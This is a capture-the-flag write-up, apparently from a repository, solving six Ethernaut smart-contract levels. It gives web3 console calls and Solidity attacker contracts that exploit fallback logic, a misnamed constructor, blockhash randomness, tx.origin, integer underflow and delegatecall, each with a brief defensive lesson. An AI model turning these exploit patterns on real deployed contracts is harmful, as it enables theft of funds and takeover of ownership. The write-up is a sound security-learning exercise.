 # Ethernaut solution

## 1. Fallback
Abusing erroneous logic between the functions and fallback function
```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
await contract.withdraw();
```

## 2. Fallout
Constructor is spelled wrongly; becomes a regular function
```
await contract.Fal1out({value: 1234});
await contract.sendAllocation(await contract.owner());
```

## 3. Coinflip
Don't rely on block number for any validation logic. I can calculate solution if both our txn in the same block and pass the result to your contract!
``` 
pragma solidity ^0.4.24;
import "./CoinFlip.sol";

contract CoinFlipSoln {
    CoinFlip private _victim;
    uint256 private lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) public {
        _victim = CoinFlip(_address);
    }
    
    function hackIt() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _victim.flip(side);

  }
}
```

## 4. Telephone
Don't rely on tx.origin. Remember that when you call a contract (B) function from within another contract (A), the msg.sender is the address of A, not the account that you initiated the function from. The only way you can preserve msg.sender is through DelegateCall but that's another shit show by itself! Would avoid unless you know what you're doing.
```
pragma solidity ^0.4.24;
import "./telephone.sol";

contract HackIt {
    Telephone private telephone;
    
    constructor(address _address) public {
        telephone = Telephone(_address);
    }
    
    function hackIt() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## 5. Token
Be careful of integer over/underflow. Always use safemath libraries. Basically I understood that no matter what parameter I entered as _value, it will always return a number that is > 0 because it's a uint therefore the require statement is as good as useless. 
```
await contract.transfer(instance, 25)
```


## 6. Delegation
Be very very careful when using delegatecall. msg.sender, msg.data, msg.value are all preserved. Always do a check to ensure that msg.data.length == 0 if you don't want them to call any function. https://solidity.readthedocs.io/en/v0.4.25/types.html#address for more info. All I had to do was trigger the fallback function (note that it is not payable) with "pwn()" as the msg.value. https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-sendtransaction
```
await contract.sendTransaction({data: web3.sha3("pwn()").slice(0, 10)})
```





